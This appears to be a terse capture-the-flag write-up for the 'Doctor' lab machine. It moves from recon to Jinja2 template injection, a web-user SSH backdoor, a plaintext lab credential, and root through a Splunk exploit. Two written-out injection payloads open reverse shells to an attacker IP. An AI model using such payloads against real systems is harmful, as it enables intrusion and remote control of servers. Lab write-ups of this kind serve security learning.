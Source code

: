 # Doctor - 10.10.10.209

Created: August 1, 2021 7:05 AM

nmap:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled.png)

domain:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%201.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%201.png)

maybe users:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%202.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%202.png)

admin user:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%203.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%203.png)

cool youtube music made by paul:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%204.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%204.png)

port 8089:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%205.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%205.png)

need user creds.

doctors.htb redirect:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%206.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%206.png)

creating user:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%207.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%207.png)

no SQLi.

we're running flask:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%208.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%208.png)

SSTI possible:

1.

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%209.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%209.png)

not working:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2010.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2010.png)

2.

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2011.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2011.png)

working:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2012.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2012.png)

3.

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2013.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2013.png)

its Jinja2:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2014.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2014.png)

crafting exploit:

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
 

```bash
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.20\",4443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

```php
{{request.application.globals.builtins.import('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/4444 0>&1"').read()}}
```

and:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2015.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2015.png)

making ssh backdoor as web user:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2016.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2016.png)

we're on the adm ****group so we can log files. on linpeas we find creds:

shaun : Guitar123

ssh not working with it

splunk on 8089 does. there's an exploit for splunk 8.0.5 with creds.

downloading exploit from:

[https://github.com/cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)

running and getting root shell:

![Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2017.png](Doctor%20-%2010%2010%2010%20209%20004e97a1e8934095a95c0c49db488f81/Untitled%2017.png)